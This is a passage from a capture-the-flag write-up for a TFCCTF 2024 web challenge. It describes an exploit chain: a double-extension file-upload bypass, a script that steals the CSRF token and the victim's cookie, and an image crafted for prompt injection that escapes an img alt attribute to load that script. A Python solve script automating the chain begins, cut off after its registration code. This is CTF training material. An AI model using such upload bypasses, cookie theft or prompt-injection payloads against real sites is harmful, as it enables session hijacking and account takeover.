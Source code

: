 ![](payload.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TCTF-CTF-2024/images/Pasted%20image%2020240805205255.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TCTF-CTF-2024/images/Pasted%20image%2020240805205359.png)

Yep! It worked!!

> Note: Sometimes the uploaded JavaScript will be deleted. Maybe the application automatically deletes all unused profile picture files?

## Exploitation

Putting everything back together, to get the flag, we can:

1. Upload a JavaScript file via the double extensions bypass. The JavaScript code gets the `/edit_profile` page's CSRF token and update the profile description with the cookie
2. Jot down the uploaded JavaScript filename
3. Upload an profile picture that exploits prompt injection, which escapes the profile picture's `<img>` element `alt` attribute and import our uploaded JavaScript file
4. Send a friend request to the admin user

Now, we can write a solve script to automatic the above exploit chains!

```python
#!/usr/bin/env python3
import requests
import random
import string
from bs4 import BeautifulSoup
from re import search, compile
from PIL import Image, ImageDraw, ImageFont
from io import BytesIO

class Solver:
    def __init__(self, targetBaseUrl):
        self.targetBaseUrl = targetBaseUrl
        self.session = requests.session()
        self.REGISTER_PATH = f'{self.targetBaseUrl}/register'
        self.LOGIN_PATH = f'{self.targetBaseUrl}/login'
        self.EDIT_PROFILE_PATH = f'{self.targetBaseUrl}/edit_profile'
        self.SEND_FRIEND_REQUEST_PATH = f'{self.targetBaseUrl}/send_request'
        self.ADMIN_PROFILE_PATH = f'{self.targetBaseUrl}/profile/admin'
        self.FLAG_REGEX_FORMAT = compile('(TFCCTF\{.*?\})')

    def getCsrfToken(self, url):
        csrfToken = BeautifulSoup(self.session.get(url).text, 'html.parser').find('input', attrs={ 'name':'csrf_token' }).attrs['value']
        if not csrfToken:
            print('[-] Unable to retrieve the CSRF token')
            exit(0)

        return csrfToken

    def register(self):
        print('[*] Registering a new account...')
        
        randomUsername = ''.join(random.choice(string.ascii_lowercase) for i in range(10))
        randomPassword = ''.join(random.choice(string.ascii_lowercase) for i in range(10))
        bodyData = {
            'csrf_token': self.getCsrfToken(self.REGISTER_PATH),
            'username': randomUsername,
            'password': randomPassword,
            'confirm_password': randomPassword
        }
```